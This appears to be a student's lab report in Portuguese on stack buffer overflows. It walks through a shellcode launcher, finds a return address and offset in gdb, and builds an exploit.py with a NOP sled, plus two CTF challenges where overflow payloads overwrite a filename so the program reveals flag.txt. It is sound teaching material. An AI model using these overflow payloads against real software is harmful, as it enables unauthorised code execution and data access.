


# Trabalho realizado na Semana #4

## Tarefa 1

No programa `call_shellcode.d`, é criada uma função func e é colocado no seu endereço de memória um código binário que abre uma shell. 

```c
char code[500];
strcpy(code, shellcode); // Copy the shellcode to the stack
int (*func)() = (int(*)())code;
func(); // Invoke the shellcode from the stack
```

Utilizando o ficheiro `Make` fornecido, são criados dois binários: `a32.out` e `a64.out`. Executando qualquer um destes podemos observar que é aberta uma shell. Isto acontece porque o programa chama a função `func`. No seu endereço de memória está o programa binário, sendo este o código executado.

## Tarefa 2

Nesta tarefa o objetivo é transformar o programa, cedendo-lhe permissões root e transformando-o num programa Set-UID.


## Tarefa 3

O primeiro objetivo do debugging é descobrir qual o endereço de retorno, e a posição inicial do buffer:

```bash
$ p $ebp
$1 = (void *) 0xffffcb68

$ p &buffer
$2 = (char (*)[100]) 0xffffcafc

```

Sabendo que o início da posição do buffer é o valor de $2 e a posição do valor de retorno é dado pelo ebp $1, podemos calcular o offset subtraindo os endereços $1- $2, obtendo assim o valor 108.

(Explicação dos 4 bits)

No entanto, como queremos que a função de retorno aponte para baixo do ebp, tentamos somar vários valores ao return. Sabendo isto, colocámos o start (início do shellcode) no fim do ficheiro calculando : `start = 517 - len(shellcode)`. Assim, como entre a posição do return e o início do shellcode, o ficheiro terá instruções 0x90, sabemos que eventualmente será executado o código deste último.

Após algumas tentivas, descobrimos que somando 200 ao valor inicial do ebp, o nosso ataque executa com sucesso:



Assim o nosso ficheiro *exploit.py* fica com os seguintes valores:

```py
# Decide the return address value and put it somewhere in the payload

start = 517 - len(shellcode)            
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb68         # hex (ebp +200)
offset = 108 + 4                      

```

Aplicando o mesmo raciocínio conseguimos efetuar o mesmo ataque para uma stack de tamanho diferente.



# CTF Semana 5

## Desafio 1

Ao observar o ficherio `main.c` identificamos a seguinte vulnerabilidade: O buffer alocado para guardar o input tem 20 bytes, no entanto, a função `scanf` está a aceitar 28 bytes. A variável `meme_file` está localizada a seguir ao `buffer`. Quer isto dizer que o que for escrito nos extra 8 bytes do input será colocado em `meme_file`. Isto é um problema porque esta variável dita que ficheiro irá ser aberto. Podemos assim alterá-la para abrir o ficheiro `flag.txt`.

```python
s = b""
for i in range(20):
	s += b"a"
s += b"flag.txt\0"
```

Ao executar o programa com input `s`, este abre o ficheiro `flag.txt` e imprime os seus conteúdos, revelando a flag.

## Desafio 2

Neste novo programa foi introduzido um novo campo de verificação, `val`. Está localizado em memória entre `meme_file` e `buffer`. Quer isto dizer que para reescrever o `meme_file` com a mesma técnica utilizada anteriormente será necessário reescrever também em `val`. Não será problema uma vez que o `scanf` aceita agora 32 bytes e val tem apenas 4 de tamanho.

```python
s = b""
for i in range(20):
	s += b"a"
s += bytes.fromhex('2322fcfe')
s += b"flag.txt\0"
```

Desta vez colocamos também na string os 4 bytes extra necessários para o programa proceder à abertura do ficheiro. Mais uma vez, o programa abre o ficheiro `flag.txt` e revela a flag.
